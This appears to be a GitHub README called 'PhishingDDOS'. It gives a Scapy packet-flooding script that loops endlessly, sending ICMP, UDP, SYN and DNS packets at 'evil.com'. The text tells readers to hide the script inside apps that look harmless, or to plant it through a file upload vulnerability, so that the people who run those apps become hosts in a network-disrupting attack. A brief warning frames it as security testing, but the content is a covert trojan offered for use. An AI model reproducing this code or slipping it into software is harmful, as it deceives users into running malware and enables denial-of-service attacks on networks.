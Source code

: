# PhishingDDOS
This tool contains a code that you can use to hide in seemingly harmless apps that you code for people with whom you can infect. Multiple infected hosts with barely any trace of the attacker will disrupt the network.

<h2>How to use it</h2>

<b>Integrate it within an executable file that you coded for it to look harmless for your targets. You can change the code as you like as I have described below how it works and what adjustments you can make</b>


<h1><b>What you can do with the code</b></h1>

``` 
from scapy.all import *

# Loop to send different types of packets
while True:
        # Time for DDOS
    packet = IP(dst="evil.com")/ICMP()
    send(packet)
    send(packet)
    send(packet)
    send(packet)
    packet = IP(dst="evil.com")/UDP(dport=12345)/Raw(load="Hello, UDP!")
    send(packet)
    send(packet)
    send(packet)
    send(packet)
    packet = IP(dst="evil.com")/TCP(dport=80, flags="S")
    send(packet)
    send(packet)
    send(packet)
    send(packet)
    packet = IP(dst="8.8.8.8")/UDP(dport=53)/DNS(qd=DNSQR(qname="evil.com"))
    send(packet)
    send(packet)
    send(packet)
    send(packet)
    # Send the packet
```

In the while loop, depending on how much you want to destroy the network. Put in as many send(packets between the packet variables as much as you want.
Code it within either a file upload vulnerability or integrated within a Python application for people to use.

<h1>WARNING</h1>
Use this to test your company/organization's security of the community and networks. It is illegal to perform DDOS with malicious intent.
Do it only to protect yourself and your organization
